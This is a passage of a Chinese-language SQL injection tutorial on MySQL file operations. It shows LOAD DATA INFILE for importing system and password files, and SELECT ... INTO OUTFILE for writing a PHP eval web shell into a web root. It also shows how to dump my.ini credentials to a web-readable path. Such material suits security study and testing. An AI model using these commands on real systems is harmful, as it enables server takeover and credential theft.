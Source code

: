         Explain:路径里的/用 \\代替
        							
2.      文件导入到数据库
        								
    
    LOAD DATA INFILE语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811225756812-1290331945.png)
    
    在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile导入到数据库中。
    
    函数具体介绍：对于参数介绍这里就不过多的赘述了，可以参考mysql的文档。（提醒：参考文档才是最佳的学习资料）
    
    示例：load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\\t' lines terminated by '\\n'
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811225757453-1502197194.png)
    
    将/tmp/t0.txt导入到t0表中，character set gbk是字符集设置为gbk，fields terminated by是每一项数据之间的分隔符，lines terminated by 是行的结尾符。
    
    当错误代码是2的时候的时候，文件不存在，错误代码为13的时候是没有权限，可以考虑/tmp等文件夹。
    
    TIPS：我们从mysql5.7的文档看到添加了load xml函数，是否依旧能够用来做注入还需要验证。
    
3.  **导入到文件**
    
    SELECT.....INTO OUTFILE 'file\_name'
    
    可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此您必须拥有FILE权限，才能使用此语法。file\_name不能是一个已经存在的文件。
    
    我们一般有两种利用形式：
    
    第一种直接将select内容导入到文件中：
    
    Select version() into outfile "c:\\\\phpnow\\\\htdocs\\\\test.php"
    
    此处将version()替换成一句话，<?php @eval($\_post\["mima"\])?>也即
    
    Select <?php @eval($\_post\["mima"\])?> into outfile "c:\\\\phpnow\\\\htdocs\\\\test.php"
    
    直接连接一句话就可以了，其实在select内容中不仅仅是可以上传一句话的，也可以上传很多的内容。
    
    第二种修改文件结尾：
    
    Select version() Into outfile "c:\\\\phpnow\\\\htdocs\\\\test.php" LINES TERMINATED BY 0x16进制文件
    
        解释：通常是用'\r\n'结尾，此处我们修改为自己想要的任何文件。同时可以用FIELDS TERMINATED BY 
        						
    
    16进制可以为一句话或者其他任何的代码，可自行构造。在sqlmap中os-shell采取的就是这样的方式，具体可参考os-shell分析文章：http://www.cnblogs.com/lcamry/p/5505110.html
    
    TIPS：
    
    （1）可能在文件路径当中要注意转义，这个要看具体的环境
    
     （2）上述我们提到了load\_file(),但是当前台无法导出数据的时候，我们可以利用下面的语句：
    
    select load\_file('c:\\\\wamp\\\\bin\\\\mysql\\\\mysql5.6.17\\\\my.ini')into outfile 'c:\\\\wamp\\\\www\\\\test.php'
    
    可以利用该语句将服务器当中的内容导入到web服务器下的目录，这样就可以得到数据了。上述my.ini当中存在password项（不过默认被注释），当然会有很多的内容可以被导出来，这个要平时积累。
    